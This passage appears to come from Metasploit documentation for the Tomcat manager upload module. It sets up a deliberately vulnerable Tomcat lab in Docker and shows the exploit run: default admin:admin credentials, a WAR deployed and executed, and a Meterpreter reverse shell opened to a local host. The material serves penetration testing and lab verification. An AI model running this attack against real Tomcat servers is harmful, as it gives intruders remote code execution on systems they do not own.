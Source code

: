 ```sh

echo "User configuration:"
cat ./conf/tomcat-users.xml

echo "Manager configuration:"
cat ./webapps/manager/META-INF/context.xml

# Run tomcat as normal
catalina.sh run
```

Run the Docker process with the configured users and enabling management app:

```sh
docker run \
   --interactive --tty \
   --rm \
   --publish 8888:8080 \
   --volume $(pwd)/tomcat-users.xml:/usr/local/tomcat/conf/tomcat-users.xml \
   --volume $(pwd)/setup.sh:/usr/local/tomcat/setup.sh \
   tomcat:8.5.78-jre8-temurin /bin/bash setup.sh
```

It should be now be possible to run this module:

```
msf6 exploit(multi/http/tomcat_mgr_upload) > use exploit/multi/http/tomcat_mgr_upload
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_mgr_upload) > run http://admin:admin@127.0.0.1:8888 lhost=192.168.123.1

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying YzO13d...
[*] Executing YzO13d...
[*] Undeploying YzO13d ...
[*] Sending stage (61456 bytes) to 192.168.123.1
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 4 opened (192.168.123.1:4444 -> 192.168.123.1:58604 ) at 2022-05-10 16:55:34 +0100

meterpreter >
```

## Windows (xp sp2)
### Tomcat 6 (6.0.48)
#### Setup

1. Download and install the pre-req [Java7](http://www.oracle.com/technetwork/java/javase/downloads/jre7-downloads-1880261.html)
2. Download and install [Tomcat6](http://apache.osuosl.org/tomcat/tomcat-6/v6.0.48/bin/apache-tomcat-6.0.48.exe)
